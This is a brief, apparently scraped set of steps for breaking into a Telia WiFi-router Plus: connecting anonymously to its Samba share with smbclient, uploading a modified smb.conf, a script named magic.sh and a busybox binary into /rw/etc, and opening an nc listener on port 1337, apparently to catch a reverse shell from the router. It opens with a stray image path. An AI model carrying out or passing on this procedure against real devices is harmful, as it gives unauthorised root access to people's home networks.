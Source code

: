 Telia WiFi-router Plus

1. First connect to samba when u have dd 41GATE31.img to a ext2/3 stick
2- smbclient //192.168.1.253/Disk_a1 -N
3. Now move smb.conf and magic.sh put busybox-mips to /rw/etc
chmod +x <files>
cd rootlink\rw\etc
put smb.conf
put magic.sh
put busybox-mips
open another window and run nc -lvvp 1337
while waiting, upload smb.conf /rw/etc again..
